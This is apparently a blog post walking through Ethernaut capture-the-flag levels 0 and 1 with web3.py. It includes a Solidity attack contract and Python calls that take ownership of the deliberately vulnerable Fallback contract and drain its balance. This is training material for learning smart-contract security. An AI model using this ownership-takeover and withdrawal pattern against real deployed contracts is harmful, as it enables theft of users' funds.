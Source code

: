 ```yaml
---
layout: post
title:  Ethernaut Challenges with web3.py
date:   2023-01-22 11:50:16 +0100
categories: init
post_id: 2
---
```


This is a fast-paced walkthrough of the ethernaut challenges using web3.py. The goal is to get you up and running with web3.py and the ethernaut challenges as quickly as possible. If you want to learn more about web3.py, check out the [web3.py documentation](https://web3py.readthedocs.io/en/stable/).

## Setup

```python
# setup connection to test net
from web3 import Web3

# connect to a local net
l_net = Web3(Web3.HTTPProvider("http://127.0.0.1:8545"))

# connect to goerli network
g_net = Web3(Web3.HTTPProvider("https://rpc.ankr.com/eth_goerli"))

g_net.isConnected()

```

```bash
True
```

- ## [Level 0](https://ethernaut.openzeppelin.com/level/0xBA97454449c10a0F04297022646E7750b8954EE8) - Hello Ethernaut

`Difficulty Level: 0/5`

### level_0 task

This level is a sanity check to make sure you understand how to interact with a smart contract.

### solution

```python
# contract address, can be obtained from the browser console
# with: contract.address
contract_addr = "0xC63C2947fcaf80d13D40742A52fF5122fec5B171"

# contract abi, obtain from browser with: contract.abi 
contract_abi = '[{ redacted due to size }]'

hello_contract = g_net.eth.contract(address=contract_addr, abi=contract_abi)

hello_contract.functions.info().call()

```

```bash
'You will find what you need in info1().'
```

```python
# from the output above, we know we have to make a call
# to info1()
hello_contract.functions.info1().call()
```

```bash
'Try info2(), but with "hello" as a parameter.'
```

```python
# calling info2(), with 'hello' parameter
hello_contract.functions.info2('hello').call()
```

```bash
'The property infoNum holds the number of the next info method to call.'
```

```python
hello_contract.functions.infoNum().call()
```

```bash
42
```

```python
hello_contract.functions.info42().call()
```

```bash
'theMethodName is the name of the next method.'
```

```python
hello_contract.functions.theMethodName().call()
```

```bash
'The method name is method7123949.'
```

```python
hello_contract.functions.method7123949().call()
```

```bash
'If you know the password, submit it to authenticate().'
```

```python
hello_contract.functions.password().call()
```

```bash
'ethernaut0'
```

```python
hello_contract.functions.authenticate('ethernaut0').call()
```

submit the contract and challenge solved.

- ## [Level 1](https://ethernaut.openzeppelin.com/level/0x80934BE6B8B872B364b470Ca30EaAd8AEAC4f63F) - Fallback

`Difficulty Level: 1/5`

### level_1 Task

Look carefully at the contract's code below. You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0

### level_1 Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

    mapping(address => uint) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;

        if(contributions[msg.sender] > contributions[owner]){
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }

}

```

### level_1 Solution

From the problem statement our task is to own the contract and steal all the funds, to steal the funds from the contract we just need to be the owner of the contract and call the `withdraw()` function. But the withdraw function can only be called by the owner, due to the `onlyOwner` modifier, therefore we have to figure out a way to take ownership. Looking closely at the `contribute` function, it can be seen that we can take ownership of the contract when we send a contribution to it and our total contribution is greater than that of the current owner, `owner = msg.sender`. But this seems very difficult because of the check `require(msg.value < 0.001 ether)`, since it will take a lot of time before we can match the owners contribution (`1000 * (1 ether)`). But all hope is not lost since we have a `receive()` function that accomplish the same objective (`owner = msg.sender`) all we have to do is make sure we pass the check `require(msg.value > 0 && contributions[msg.sender] > 0)`. The following contract solves the problem.

`fallback_attack.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./fallback.sol";

contract AttackFallback {

    Fallback public fallbackContract;

    constructor(address fallbackContractAddress) {
        fallbackContract = Fallback(payable(fallbackContractAddress));
    }

    function makeContribution() public {
        fallbackContract.contribute{value: 3 wei}();
    }

    function getContribution() public view returns (uint) {
        return fallbackContract.getContribution();
    }

    function ownTheContract() public {
        payable(address(fallbackContract)).transfer(3 wei);
    }

    function lootContract() public {
        fallbackContract.withdraw();
    }

    receive() external payable {
        return ;
    }
}

```

We deploy the `fallback_attack.sol` contract, we then call the `makeContribution()` function, afterwards we call the `ownTheContract()` and `lootContract()` consecutively to solve the challenge. We accomplish that with following python code:

```python
# use the address you deployed ur
# attack contract at
contract_addr = '0x1234567890'

contract_abi = '[{ the attack contract abi here }]'

attack_contract = g_net.eth.contract(address=contract_addr, abi=contract_abi)

# call the makeContribution() function
attack_contract.functions.makeContribution().transact()

# call the ownTheContract() function
attack_contract.functions.ownTheContract().transact()

# call the lootContract() function
attack_contract.functions.lootContract().transact()

```

Note that we could easily have combined all the functions into one function and call it once in the solidity contract, but I decided to split it up to demonstrate how to use web3.py.
